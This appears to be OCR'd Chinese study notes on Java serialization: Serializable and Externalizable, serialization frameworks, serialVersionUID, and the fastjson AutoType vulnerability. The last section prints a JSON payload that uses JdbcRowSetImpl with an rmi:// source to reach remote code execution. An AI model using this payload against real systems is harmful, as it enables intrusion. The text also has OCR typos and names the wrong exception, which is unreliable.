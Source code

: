 在Java的序列化机制中，如果是String，枚举或者实现了Serializable接口的类均可以通过Java的序列化机制，将类序列化为符合编码的数据流，然后通过InputStream和OutputStream将内存中的类持久化到硬盘或者网络中;同时也可以通过反序列化机制将磁盘中的字节码再转换成内存中的类。

如果一个类想被序列化，需要实现Serializable接口。否则将抛出NotSerializableException异常。
Serializable接口没有方法或字段，仅用于标识可序列化的语义。

> Serializable与Externalizable的区别

Externalizable继承了Serializable，该接口中定义了两个抽象方法:writeExternal0)与readExternal()。
当使用Externalizable接口来进行序列化与反序列化的时候需要开发人员重写writeExternal0)与readExternal()方法。
如果没有在这两个方法中定义序列化实现细节，那么序列化之后，对象内容为空。
实现Externalizable接口的类必须要提供-个public的无参的构造器。
所以，实现Externalizable，并实现writeExternal()和readExternal()方法可以指定序列化哪些属性。

> java中有哪些序列化的框架？

Java中常用的序列化框架：java、kryo、hessian、protostuff、gson、fastjson等

1. Kry0:速度快，序列化后体积小;跨语言支持较复杂
2. Hessian:默认支持跨语言;效率不高
3. Protostuff:速度快，基于protobuf;需静态编译
4. Protostuff-Runtime:无需静态编译，但序列化前需预先传入schema;不支持无默认构造函数的类，反序列化时需用户自己初始化序列化后的对象，其只负责将该对象进行赋值
5. Java:使用方便，可序列化所有类;速度慢，占空间

> serialVersionUID有啥用？

序列化是将对象的状态信息转换为可存储或传输的形式的过程。Java对象是保存在堆内存中的，如果堆不存在了，那么对象也就跟着消失了，而序列化提供了一种方案，可以让你在即使JVM停机的情况下也能把对象保存下来的方案。就像我们平时用的U盘一样。

把Java对象序列化成可存储或传输的形式(如二进制流)，比如保存在文件中。这样，当再次需要这个对象的时候，从文件中读取出二进制流，再从二进制流中反序列化出对象。
但是，虚拟机是否允许反序列化，不仅取决于类路径和功能代码是否一致，一个非常重要的一点是两个类的序列化ID是否一致，即serialVersionUID要求一致。

在进行反序列化时，JVM会把传来的字节流中的serialVersionUID与本地相应实体类的serialVersionUID进行比较，如果相同就认为是一致的，可以进行反序列化，否则就会出现序列化版本不一致的异常，即是InvalidCastException。这样做是为了保证安全，因为文件存储中的内容可能被篡改。

当实现java.io.Serializable接囗的类没有显式地定义一个serialVersionUID变量时候，Java序列化机制会根据编译的Class自动生成一个serialVersionUID作序列化版本比较用，这种情况下，如果Class文件没有发生变化，就算再编译多次serialVersionUID也不会变化的。但是，如果发生了变化，那么这个文件对应的serialVersionUlD也就会发生变化。

基于以上原理，如果我们一个类实现了Serializable接口，但是没有定义serialVersionUID，然后序列化。在序列化之后，由于某些原因，我们对该类做了变更，重新启动应用后，我们相对之前序列化过的对象进行反序列化的话就会报错。

> fastjson的反序列化漏洞

当我们使用fastjson进行序列化的时候，当一个类中包含了一个接口(或抽象类)的时候，会将子类型抹去，只保留接口(抽象类)的类型，使得反序列化时无法拿到原始类型。

那么为了解决这个问题，fastjson引入了AutoType，即在序列化的时候，把原始类型记录下来。

因为有了AutoType功能，那么fastjson在对JSON字符串进行反序列化的时候，就会读取`@type`到内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的setter方法。

那么这个特性就可能被利用，攻击者自己构造一个JSON字符串，并且使用`@type`指定一个自己想要使用的攻击类库实现攻击。

举个例子，黑客比较常用的攻击类库是`com.sun.rowset.JdbcRowSetlmpl`，这是sun官方提供的一个类库，这个类的dataSourceName支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用去指定的rmi地址中去调用方法
而fastison在反序列化时会调用目标类的setter方法，那么如果黑客在JdbcRowSetlmpl的dataSourceName中设置了一个想要执行的命令，那么就会导致很严重的后果，
如通过以下方式定一个JSON串，即可实现远程命令执行(在早期版本中，新版本中JdbcRowSetlmpl已经被加了黑名单)
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
